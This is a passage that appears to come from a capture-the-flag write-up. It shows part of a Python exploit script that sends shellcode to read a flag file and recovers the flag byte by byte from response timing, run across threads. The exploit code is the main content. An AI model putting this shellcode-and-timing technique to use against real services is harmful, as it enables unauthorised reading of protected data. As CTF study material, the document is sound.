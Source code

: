 ```python
	sc2 = openflag + ret264 + readflag + alarm
	start = time.time()
	cn.sendline(sc2)
	try:
		cn.recv()
	except:
		...
	end = time.time()
	cn.close()
	pass_time = int(end-start) + 0x20
	flag[idx] = pass_time
	print(bytes(flag))


context.os='linux'

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw']

pool = []
flag = [0]*0x20
for i in range(0x20):
	t = threading.Thread(target=exp, args=(i, ))
	pool.append(t)
	t.start()
for i in pool:
	t.join()
print(bytes(flag))

```

![image-20210825223312538](https://i.loli.net/2021/08/25/SYVwsGWyNZ7gEup.png)

